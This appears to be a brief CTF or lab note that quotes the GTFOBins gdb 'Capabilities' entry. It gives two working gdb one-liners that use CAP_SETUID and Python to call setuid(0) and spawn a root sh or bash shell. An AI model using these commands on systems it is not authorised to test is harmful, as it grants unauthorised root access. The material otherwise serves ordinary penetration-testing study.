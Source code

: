  Capabilities[](https://gtfobins.github.io/gtfobins/gdb/#capabilities)

If the binary has the Linux `CAP_SETUID` capability set or it is executed by another binary with the capability set, it can be used as a backdoor to maintain privileged access by manipulating its own process UID.

This requires that GDB is compiled with Python support.


we have the capability of seuid

a shell
```
gdb -nx -ex 'python import os; os.setuid(0)' -ex '!sh' -ex quit
```

a bash
```
gdb -nx -ex 'python import os; os.setuid(0)' -ex '!bash' -ex quit
```

and we are root
















